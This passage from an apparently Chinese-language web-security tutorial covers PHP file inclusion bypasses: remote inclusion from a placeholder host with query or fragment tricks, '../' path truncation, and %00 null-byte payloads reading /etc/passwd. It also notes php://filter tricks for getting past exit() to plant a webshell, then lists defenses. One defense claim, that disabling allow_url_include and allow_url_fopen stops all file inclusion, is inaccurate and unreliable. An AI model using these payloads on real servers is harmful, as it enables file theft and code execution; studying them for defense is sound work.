         * **query(?)**

            `file=http://remoteaddr/remoteinfo.txt?`  
            则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`后缀就会被当作query从而被绕过

        * **fragment(#)**

            `file=http://remoteaddr/remoteinfo.txt%23`  则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`

3. 路径长度截断

    * 利用条件：php版本  < php 5.2.8 
    * 目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`/../../../../../../../../../etc/passwd/././././././`则后缀`/test/test.php`，在达到最大值后会被直接丢弃掉。
    * 点号截断  
        * file=../../../../../../../../../boot.ini/……   只适用 Windows，点号需要长于 256。
    
4. %00字节截断 ：
    * 利用条件： php版本      < php 5.3.4   magic_quotes_gpc=off
    * file=../../../../../../../../../etc/passwd%00 能利用00截断的场景现在应该很少了

5. 绕过exit函数/die函数进行文件包含

    简单提一下，主要通过`php://filter的过滤器`，详细见[p神文章 ](https://www.leavesongs.com/PENETRATION/php-filter-magic.html) 

    5.1	通过编码如base64，rot13(类似于宽字节注入将exit合并注释)

    5.2	利用strip_tags函数去除标签,来去除“死亡exit”；由此先将输入代码编码，然后去除"死亡exit;"，然后解码进行webshell  

    只能说真滴强

## 防御

1. 写死要包含的文件，不要利用变量来构造包含的文件。
2. 做好文件的权限管理
3. 文件包含需要配置      allow_url_include=On(远程文件包含)、allow_url_fopen=On(本地文件包含) 。所以，我们可以将其关闭，这样就可以杜绝文件包含漏洞了。
4. 可以设置白名单。
5. 对危险字符进行过滤。
